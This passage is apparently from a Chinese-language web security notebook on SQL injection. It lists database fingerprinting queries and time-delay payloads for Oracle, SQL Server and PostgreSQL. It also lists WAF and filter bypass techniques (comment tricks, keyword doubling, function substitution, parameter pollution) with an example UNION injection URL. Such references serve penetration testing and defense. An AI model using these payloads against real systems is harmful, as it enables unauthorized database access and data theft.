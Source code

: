 - - 识别用函数

    `connection_id()``last_insert_id()``row_count()`

## 3.1.4.2. Oracle

- - 字符串连接

    `'a'||'oracle' --``SELECT CONCAT('some','string')`

- - version

    `SELECT banner FROM v$version``SELECT banner FROM v$version WHERE rownum=1`

## 3.1.4.3. SQLServer

- WAITFOR `WAITFOR DELAY '00:00:10';`

- SERVERNAME `SELECT @@SERVERNAME`

- version `SELECT @@version`

- - 字符串连接

    `SELECT 'some'+'string'`

- - 常量

    `@@pack_received``@@rowcount`

## 3.1.4.4. PostgreSQL

- sleep `pg_sleep(1)`

# 3.1.5. 绕过技巧

- - 编码绕过

    大小写url编码html编码十六进制编码unicode编码

- - 注释

    `//` `--` `-- +` `-- -` `#` `/**/` `;%00`内联注释用的更多，它有一个特性 `/!**/` 只有MySQL能识别e.g. `index.php?id=-1 /*!UNION*/ /*!SELECT*/ 1,2,3`

- - 只过滤了一次时

    `union` => `ununionion`

- - 相同功能替换

    函数替换`substring` / `mid` / `sub``ascii` / `hex` / `bin``benchmark` / `sleep`变量替换`user()` / `@@user`符号和关键字`and` / `&``or` / `|`

- - HTTP参数

    HTTP参数污染`id=1&id=2&id=3` 根据容器不同会有不同的结果HTTP分割注入

- - 缓冲区溢出
